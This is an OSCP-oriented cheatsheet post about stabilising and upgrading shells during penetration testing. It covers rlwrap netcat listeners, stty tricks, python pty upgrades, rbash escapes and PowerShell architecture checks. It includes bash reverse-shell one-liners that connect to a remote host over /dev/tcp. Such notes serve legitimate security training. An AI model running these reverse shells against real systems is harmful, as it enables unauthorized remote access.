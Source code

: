 ```yaml
---
title: Upgrading and Improving Shells
author: linatl
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
> stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
> export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
> python -c 'import pty; pty.spawn("/bin/sh")'
> python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
> export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
> /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
> /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

alternative to check arch in ps environment:
> [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
